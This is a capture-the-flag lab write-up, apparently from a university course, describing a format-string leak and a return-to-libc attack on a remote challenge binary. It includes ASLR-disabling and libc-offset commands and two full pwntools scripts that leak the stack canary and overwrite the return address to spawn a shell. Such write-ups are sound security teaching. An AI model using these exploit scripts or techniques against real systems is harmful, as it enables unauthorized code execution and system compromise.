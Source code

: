 We started by checking the ``program`` protections, and found out it would be difficult to access the program. However, we also found that the program wasn't checking the length of the input, thus ``fgets`` function is reading 100 characters, while it should be only reading 20.

![alt text](img/Screenshot%202022-12-16%20at%2017.26.03.JPG)

Trying to do a format string vulnerability, and printed stack's information:

![alt text](img/Screenshot%202022-12-16%20at%2017.29.15.JPG)

After this we started exploring the other file given, and found an attack called `Return-to-libc`. To explore this vulnerability, we first disabled ASLR (Address Space Layout Randomization) with `echo 0 > /proc/sys/kernel/randomize_va_space`. We then searched for the location of `bin/sh` and `system offset` with the commands `strings -t x libc.so.6 | grep "/bin/sh"` and `readelf -s libc.so.6 | grep system`, respectively. 

![alt text](img/Screenshot%202022-12-16%20at%2017.38.22.JPG)

We also found the offset of libc and the range where libc is mapped, by using `info proc map`, a function of gdb. Having this information, we wrote the following program to retrieve the values from the stack:

```python
#!/usr/bin/python3
from pwn import *

LOCAL = False

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

for i in range(1,14):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline("%" + str(i) + "$10p")
	answer = p.recvline()
	print("i: ", i, "-> stack", answer)
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")


p.interactive()
```

The libc values were located between `0xf7daa519` and `0xf7d89000`. The stack's value in index 8 always ended with 00, so we figured out this should have been the canary.

We rewrote the previous script to make it repeat 3 times, so we could get the canary's value (to not break it), to overwrite the return address to libc, to write "E" 19 times and insert '\0' in its end in order to not break the canary.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

referenceLibOffset = 0xf7daa519 - 0xf7d89000
systemLibOffset = 0x48150
shLibOffset = 0x1bd0f5

def sendMessage(p, message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

message1 = sendMessage(p, b"%8$x-%11$x")

canary, referenceVal = [int (val, 16) for val in message1.split(b'-')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
adressSH = libBase + shLibOffset

message2 = flat(b"A"*20, canary +1, b"A"*8, addressSystem, b"A"*4, adressSH)

sendMessage (p, message2)

sendMessage(p, b"E"*19)

p.interactive()
```

Ran the script and got the flag.

![alt text](img/Screenshot%202022-12-17%20at%2015.06.45.JPG)